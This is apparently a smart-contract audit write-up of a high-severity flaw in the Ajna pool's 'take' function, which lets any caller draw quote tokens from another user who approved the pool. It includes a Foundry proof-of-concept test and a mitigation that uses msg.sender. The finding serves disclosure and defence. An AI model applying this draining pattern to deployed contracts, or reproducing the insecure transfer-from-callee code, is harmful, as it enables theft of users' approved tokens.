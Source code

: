 ```yaml
---
title: Audit Daily Approved Tokens To A Pool Can Be Forced To Take
date: 2023-03-09 11:21:29
tags:
  - solidity
  - web3 security
  - audit
categories:
  - audit
---
```


## [H] Audit Daily Approved Tokens To A Pool Can Be Forced To Take

### Code snippet

> full code link

[https://github.com](https://github.com/sherlock-audit/2023-01-ajna/blob/main/contracts/src/ERC20Pool.sol#L460)

```javascipt
function take(
    address        borrowerAddress_,
    uint256        collateral_,
    address        callee_,
    bytes calldata data_
) external override nonReentrant {
    ...

    _transferQuoteTokenFrom(callee_, result.quoteTokenAmount);
}
```

### Impact

Anyone who invokes the toke function and passes in someone else who approved this pool could take the tokens.

### Proof of concept

I use foundry to make the whole test.

- 1.Firstly,we need to create our own ERC20 token and implement the quote contract.

```javascript
function setUp() public virtual {
    console.log("When transferring tokens...");
    alice = address(2);
    bob = address(3);

    myERC20 = new MyERC20();
    quote = new Quote(address(myERC20));

    //owner mint some token
    myERC20.mint(OWNERAMOUNT);

    //send some token to our dear testing user.
    myERC20.transfer(alice,SOMEAMOUNT);
    myERC20.transfer(bob,SOMEAMOUNT);
}
```

- 2.Use bob's address approved the pool some token.Check the balance of bob after we make the call.

```javascript
vm.prank(bob);
myERC20.approve(address(quote), SOMEAMOUNT);

//check bob balance step1.
assertEq(myERC20.balanceOf(bob), SOMEAMOUNT);
```

- 3.Use Alice's address to call the take function which is public within the quote contract.

```javascript
//alice transfer the approve tokens.
vm.prank(alice);
quote.take(address(bob), SOMEAMOUNT);
```

- 4.Finally, we check the balance of bob, if bob's token has been token by anyone who makes the call.

```javascript
//check bob balance step2.
assertEq(myERC20.balanceOf(bob), 0);
```

### Recommended mitigation steps

Alternatively, consider checking that callee has approved spending quote tokens to msg.sender.

```javascript
function take(
    address        borrowerAddress_,
    uint256        collateral_,
    address        callee_,
    bytes calldata data_
) external override nonReentrant {
    ...

    _transferQuoteTokenFrom(msg.sender, result.quoteTokenAmount);
}
```
